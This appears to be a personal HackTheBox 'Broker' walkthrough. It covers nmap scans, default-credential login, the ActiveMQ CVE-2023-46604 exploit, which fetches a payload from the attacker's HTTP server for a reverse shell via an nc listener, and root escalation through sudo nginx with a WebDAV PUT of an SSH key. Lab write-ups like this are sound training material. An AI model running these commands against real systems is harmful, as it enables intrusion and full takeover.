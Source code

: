 ### NMAP 

```
sudo nmap -sC -sV -oN broker-nmap 10.10.11.243
```

![[Pasted image 20250426213029.png]]

Navigate to the website, but there's a login prompt 

![[Pasted image 20250426224206.png]]
- default creds `admin:admin` actually worked!

Apache ActiveMQ Website

![[Pasted image 20250426224330.png]]

Trying out existing exploit from metasploit.. 

Start metasploit database 

```
sudo msfdb run
```

![[Pasted image 20250426224510.png]]

Search for activemq once metasploit comes up 

```
search activemq
```

![[Pasted image 20250426224621.png]]

Select the first option
```
use 0 
```

```
show options
```

Configure the metasploit module settings

Run the module, but it fails 

![[Pasted image 20250427112147.png]]
- notice there is port 8161 that wasn't caught in nmap scan. 

Re-run nmap specifying all ports -p-

```
sudo nmap -p- --min-rate=10000 -oA broker-allports 10.10.11.243
```

![[Pasted image 20250427112823.png]]

Cutting out everything except for the port numbers and creating comma separated list. 

```
grep -oP '([\d]+)/open' broker-allports | awk -F/ '{print $1}' | tr '\n' '.'
```

Here is the port list 

![[HackTheBox/Linux/attachments/Pasted image 20250427113525.png]]

Now run full nmap scan with this port list 

```
sudo nmap -sC -sV -oA broker-nmap-2 -p '22,80,1883,5672,8161,44509,61613,61614,61616' 10.10.11.243
```

While this runs, search google for activemq exploits. 

There's a reddit post 

![[HackTheBox/Linux/attachments/Pasted image 20250427113930.png]]

CVE-2023-46604.

Google "activemq exploit github" 

Found a repo that will use metasploit to get a reverse shell. 

![[HackTheBox/Linux/attachments/Pasted image 20250502073845.png]]
- Clone the repo

Modifying the code in vs code a little bit 

![[HackTheBox/Linux/attachments/Pasted image 20250502074032.png]]

Stand up python server

```
python3 -m http.server
```

Execute the script. 

```
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.8:8000/poc-linux.xml
```

Set up nc listener

```
nc -lvnp 9001
```

No reverse shell. Let's encode the reverse shell one liner. 

![[HackTheBox/Linux/attachments/Pasted image 20250502074347.png]]
Use Burp to encode it in hex? 

![[HackTheBox/Linux/attachments/Pasted image 20250502074509.png]]
- Paste this payload into exploit script

This didn't work. 

Try searching for "html entity encode online"

![[HackTheBox/Linux/attachments/Pasted image 20250502074826.png]]

Fine one and paste this new encoded payload in and get reverse shell. 

![[HackTheBox/Linux/attachments/Pasted image 20250502074756.png]]

Get proper interactive shell. 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
stty raw -echo; fg
```

```
export TERM=xterm
```

We are the activemq user. 

### Privilege Escalation
#### Exploiting sudo privileges on /usr/sbin/nginx 
##### Create nginx config that runs as root & shares the entire file system
##### Enable the WebDAV PUT to upload files to server and upload SSH key
##### Alternatively upload cron entry for priv esc

Run `sudo -l`

![[HackTheBox/Linux/attachments/Pasted image 20250502075112.png]]

Cat nginx.conf and grep for every comment and redirect output to a file 

```
cat nginx.conf | grep -v '\#'| grep . > n
```


![[HackTheBox/Linux/attachments/Pasted image 20250502082127.png]]

We can modify this config. 

Copy `nginx.conf` to `/dev/shm/`

![[HackTheBox/Linux/attachments/Pasted image 20250502082316.png]]

Open the `nginx.conf` 

Change the user to root, change the pid to nginx2, remove some random ish, and paste in this info from 

```
/etc/nginx/sites-enabled/default
```

![[HackTheBox/Linux/attachments/Pasted image 20250502082800.png]]

Here is the new nginx.conf that should stand up a web server on 1337

![[HackTheBox/Linux/attachments/Pasted image 20250502085327.png]]

Then test the nginx.conf by running 

```
sudo nginx -c /dev/shm/nginx.conf
```

![[HackTheBox/Linux/attachments/Pasted image 20250502085656.png]]
- if there's no errors - it should be good

Check that nginx is running with 

```
ss -lntp
```

![[HackTheBox/Linux/attachments/Pasted image 20250502085757.png]]
Running 
```
curl localhost:1337/
```

but receive "403 Forbidden" which means we screwed up. 

![[HackTheBox/Linux/attachments/Pasted image 20250502085923.png]]
Modifying nginx.conf once again to turn autoindex on 
![[HackTheBox/Linux/attachments/Pasted image 20250502102432.png]]
 Re-running 
 ```
 sudo nginx -c /dev/shm/nginx.conf
```

The re-running 
```
curl localhost:1338
```

And it worked
![[HackTheBox/Linux/attachments/Pasted image 20250502102613.png]]

##### Enable the WebDAV PUT to upload files to server and upload SSH key

Modifying the nginx config again to enable webdav PUT
![[HackTheBox/Linux/attachments/Pasted image 20250502103925.png]]
Check this by re-running usual nginx -t and curl. 

Use curl to PUT a file from kali box to remote

![[HackTheBox/Linux/attachments/Pasted image 20250502104233.png]]
- this was successful

Now uploading an ssh key. 

```
ssh-keygen -f broker
```

![[HackTheBox/Linux/attachments/Pasted image 20250502104422.png]]
Here is what the request looks like in curl 
![[HackTheBox/Linux/attachments/Pasted image 20250502105106.png]]

Now try to ssh to box as root

```
ssh -i broker root@10.10.11.243
```

Got root.

![[HackTheBox/Linux/attachments/Pasted image 20250502104533.png]]
 

